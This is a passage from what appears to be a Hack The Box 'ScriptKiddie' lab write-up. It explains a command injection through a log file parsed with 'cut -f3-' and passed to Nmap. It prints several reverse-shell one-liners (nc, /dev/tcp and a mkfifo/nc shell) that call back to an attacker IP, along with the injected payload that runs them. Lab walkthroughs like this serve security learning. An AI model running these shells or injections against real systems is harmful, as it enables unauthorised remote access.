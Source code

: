 There is one character in this script that will allow us to do whatever we want on the box. That character happens to be the trailing '-' on the '-f3-' argument. That trailing '-' says to include anything after the third field. So for example, lets say we echo `x x ; ping -c 1 10.10.14.16` into the log file. When the cut command is done the result will be `; ping -c 1 10.10.14.16` since the ';' is the third field and we are taking that and everything after it. This whole line is then passed on to the Nmap command on the next line of the script. The semicolon will terminate the Nmap command and start our ping command (or whatever else we put) next.

Let's put the command we want to run into a script and run the script instead of sending the commands directly to the log file. This will allow us to run our script first for troubleshooting since we will get error messages this way. For example, we see that `nc` is on the box, but if we do `echo 'nc -e /bin/sh 10.10.14.16 1234' > test.sh` and run `sh test.sh` we see that the '-e' flag is not supported. Similarly if we try `bash -i >& /dev/tcp/10.10.14.16/7777` we see we get an error as well. Note I'm running these with `sh` since the scanlosers script will be executing them this way. Testing these things first can save us a lot of headaches since we wont be getting an output with an error if we just threw them into the log file.

![](/images/HTB/ScriptKiddie/reverseshell_test.png)

We do find that `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 7777 >/tmp/f` will run successfully however so let's try that.

```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 7777 >/tmp/f' > shell.sh
chmod +x shell.sh
```
Now all we should have to do is start our listener with `nc -lvnp 7777` and inject a command into the log file telling it to execute our script(`echo ';/home/kid/shell.sh' > hackers`). Since there are no spaces in what is being echoed into the file we do not need to have two arguments before it.

![](/images/HTB/ScriptKiddie/pwn_shell.png)

